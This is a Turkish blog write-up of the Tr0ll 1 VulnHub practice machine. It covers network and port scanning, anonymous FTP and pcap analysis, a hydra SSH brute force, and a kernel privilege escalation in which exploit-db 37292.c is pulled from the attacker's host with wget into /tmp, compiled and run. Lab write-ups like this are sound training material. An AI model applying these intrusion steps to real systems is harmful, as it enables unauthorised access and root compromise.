 ```yaml
---
layout: post
title: "Tr0ll Vulnhub Writeup"
date: 2017-04-11
share: true
description: Tr0ll Vulnhub Writeup
tags:
 - vm
comments: true
---
```


# Tr0ll Vulnhub

Herkese merhabalar. Üniversite 1. sınıftan beri hep ertelediğim işi artık yapacağım! Yani Blog tutucam :) Elimden geldiğince faydalı olacağını düşündüğüm yazılar yazmaya çalışacağım. Umarım faydalı olur. O zaman başlayalım.

Bu yazı da sizlere Tr0ll isimli zaafiyetli makinenin çözümünü anlatacağım. Öncelikle makineyi indirmek için;

>[https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/)

Makinenin sanal ortamda kurulumunu tamamlandıktan sonra zaafiyetli makinenin ıp adresini tespit edip işe koyuluyoruz.
Benim kali makinemin ıp adresi 192.168.100.129.

	$ netdiscover -r 192.168.100.0/24 

![](/images/tr0ll/netd.png)
	
diyerekten makinenin ıp adresini buluyoruz.Bende 192.168.100.140 olarak gözüküyor. Ip adresini de bulduğumuza göre bir nmap taraması atıp yolumuzu buluyoruz.

![nmap](/images/tr0ll/nmap.png)

nmap parametrelerini kısaca açıklayayım;

>-sS - - - > SYN Scan. SYN bayraklı paketler yollar. Varsayılan olarak kullanılır ve oldukça hızlıdır.

>-sV - - - > Hangi servisin çalıştığını bilmek yetmez versiyon bilgileride lazımdır.Çalışan servislerin versiyon bilgisini verir.

>-A - - - > Agresif tarama yapar. İşletim sistemi bilgisini , servis ve versiyon bilgilerini verir.

>-Pn - - -> Ping atmadan taramayı gerçekleştirir.

>-p- - - - > Tüm portarı tarar.

Çıktılara bakarsak;

>1-) ftp servisi açık ve anonymous kullanıcılarına açık.
>2-) ssh servisi açık.
>3-) http servisi açık ve çoğu zaman karşılaştığımız robots.txt dosyası bulunuyor.(robots.txt dosyasına arama motorları tarafından indexlenmesini istemediğimiz url bilgilerini yazarız.)Ve secret url bulunuyor.

Öncelikle http servisinde neler bekliyor bizi bakıyoruz.

![](/images/tr0ll/1.png)

Kaynak koduna falan bakıyoruz. Cıks ekmek yok buradan. O zaman robots dosyasına göz gezdirelim.

![](/images/tr0ll/2.png)

![](/images/tr0ll/3.png)

Buradan da ekmek yok bize. O zaman ftp ye anonymous olarak giriş yapalım.

![](/images/tr0ll/4.png)

Kullanıcı adı anonymous password anonymous olarak giriş yapabiliyoruz. ls komutu ile burada neler tutuluyor diye baktığımızda lol.pcap adında dosyayı görüyoruz. Bildiğiniz gibi pcap dosyaları ağ trafiğini gösteren dosyalardır ve wireshark programı ile incelenebiliyor. Dosyayı isterseniz get dosyaAdi şeklinde kendi makinenize çekebilirsiniz isterseniz browser üzerinden ftp://ıp-adresi diyerekten görüntüleyip indirebilirsiniz.

![](/images/tr0ll/5.png)

Pcap dosyasını indirip wireshark ile incelediğimde bir FTP-DATA içerisinde bir mesajla karşılaşıyorum.

![](/images/tr0ll/6.png)

![](/images/tr0ll/8.png)

Bize sup3rs3cr3tdirlol bulmamızı söylüyor. Hemen browser üzerinde url'e yazıyoruz ve sonuc;

![](/images/tr0ll/9.png)

Dosyayı indirip file komutu ile baktığımda ELF dosyası olduğunu gördüm. Yani linux üzerinde çalışan bir dosya. Bu yüzden dosyaya chmod komutu ile çalıştırma izni verip çalıştırdım.

![](/images/tr0ll/10.png)

0x0856BF adresini bulmamızı istiyordu. Bu adresi aratırken bir anda istemeden bu makinenin çözümünü yazan elemanın sayfasında buldum kendimi. Ve yine url de aramamız gerekiyormuş. Hemen url'e bu değeri yazdım.

![](/images/tr0ll/11.png)

good_luck isimli klasöre girdiğimde which_one_lol.txt adlı dosya vardı ve içerinde kullanıcı isimleri bulunduruyordu. Diğer klasörün içerisinde ise Pass.txt dosyası bulunuyordu ve içinde 'Good_job_:)' yazıyordu.

Başta attığımız nmap taramasında hatırlarsanız ssh servisi açıktı ve bu kullanıcı isimleri ve parola ssh ile bağlanmamızı sağlayabilir. Bu yüzden bu dosyları indirip hydra aracı ile ssh servisine brute force yaptım.

Fakat denedim denedim olmadı işe yaramıyordu. Bu böyle olmazdı ve kopya çektim:) Ben Pass.txt dosyası içerisindeki 'Good_job_:)' yazısını paroladır ancak diye düşünüyordum fakat parola 'Pass.txt' imiş. Yani dosyanın ismi.

Makineyi hazırlayan arkadaşları tebrik ediyorum. Makine isminin hakkını veriyor abi. Tam troller...

Neyse hydra ile brute force yaptıktan sonra bakıyoruz ve BİNGO!

![](/images/tr0ll/12.png)

Parametrelerden kısaca bahsedersem;

>-L - - - > Bu paramatre ile kullanıcı adlarının olduğu listeyi belirtiriz. Eğer '-l' olsaydı tek kullanıcı olduğunu belirtmiş olurduk. Burada dosya içersinden teker teker dener.
>-p - - - > Bu parametre ile parola olarak 'Pass.txt' kullanmasını söyledik.
>ssh - - - > ssh servisine brute force yapacağımız belirttik.

Ve kullanıcı adı 'overflow' parola 'Pass.txt' olduğunu öğrendik.

	ssh overflow@192.168.100.140

Ve içerdeyiz canım kurban.

![](/images/tr0ll/13.png)

Hemen kullanıcı bilgisine ve çekirdek bilgisine bakalım.

![](/images/tr0ll/14.png)

Burada root yetkisine sahip komutlara baktım acaba buradan yürüyebilirmiyim diye fakat birşey çıkmadı. Daha sonra öğrendiğim çekirdek bilgisinden yola çıkarak zaafiyetini aradım ve exploit-db de yayınlanmış olan zaafiyetini gördüm.

![](/images/tr0ll/15.png)

Exploit dosyasını kali makineme indirdim. Buradan python ile http servisi başlattım.

	python -m SimpleHTTPServer 8080
	
Ssh ile bağlandığım zaafiyetle makinede /tmp klasörine gittim. Linux da tmp klasörü geçici dosyalarının tutlduğu yerdir. Yani buraya dosya yazabilirsiniz. Burada ;

	wget http://192.168.100.129:8080/37292.c

komutu ile exploit dosyasını zaafiyetli makineye çektim.

Exploit dosyası c dosyası olduğu için öncelikle bu dosyayı derleyip çalışabilir hale getirdim.

	gcc 37292.c -o exploit 
	
![](/images/tr0ll/16.png)

Ve exploiti çalıştırdığımda artık rootum.

![](/images/tr0ll/17.png)

Artık root klasörüne gidebiliriz. Burada dikkatimizi proof.txt dosyası çekiyor . Zaten makinede okumamız istenen dosya bu. Ve Dosyayı okuduğumuzda Mission Complete...

![](/images/tr0ll/18.png)









  











